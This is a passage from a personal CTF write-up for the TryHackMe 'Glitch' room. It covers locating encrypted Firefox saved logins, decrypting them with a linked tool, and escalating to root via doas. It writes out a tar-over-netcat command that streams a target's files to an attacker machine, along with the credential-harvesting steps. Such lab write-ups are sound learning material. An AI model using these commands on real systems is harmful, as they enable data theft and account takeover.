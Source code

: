Uploaded LinEnum. It did not find anything. Given my scheduling and objectives for this Room I had fifteen minutes left I went back to the wirte up.
Infamous used LinPEAS, which I refrain from using to remain with OSCP exam guidelines, to find a .firefox in /home/user/. In directory I `grep -r -e "password"` and saw it fly by the output.
Seeing the word Encrypted I:
```bash
user@ubuntu:~/.firefox$ grep -r -e  "encrypted"
b5w4643p.default-release/logins.json:{"nextId":2,"logins":[{"id":1,"hostname":"https://glitch.thm","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECCP5HBZJq0+DBAjWdWrk7qo4eA==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECPfxo08d5UxEBBB9aJ+chJC2pDccxKhqs1UH","guid":"{9c80e9f2-0377-496e-9404-4411eb94783b}","encType":1,"timeCreated":1610645982812,"timeLastUsed":1610645982812,"timePasswordChanged":1610645982812,"timesUsed":1}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
Binary file b5w4643p.default-release/storage/permanent/chrome/idb/3870112724rsegmnoittet-es.sqlite matches
```
You could also use [firefox_decryptor](https://github.com/unode/firefox_decrypt) on Infamous's writeup. Learnt about firefox encryption from [stackoverflow](https://security.stackexchange.com/questions/215881/how-are-mozilla-firefox-passwords-encrypted#227735)
![firefox](Screenshots/firefox-encryption.jpg

Learn of `doas` from [Noraj](https://blog.raw.pm/en/TryHackMe-Glitch-write-up/), is as described by probably one of the best websites on the entire internet [similar to sudo](https://wiki.archlinux.org/title/Doas).
Reinventing a similarish wheel to PrivEsc. This blog alos contains some really awesome instructions for large directory transfer that made it's way into my [Archive](Network/shell.md)

Target machine
```bash
tar cf - . | nc $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```
Decrypt for v0id credentials. `su v0id` and then `doas -u root /bin/bash` and then  `cat /root/root.txt`
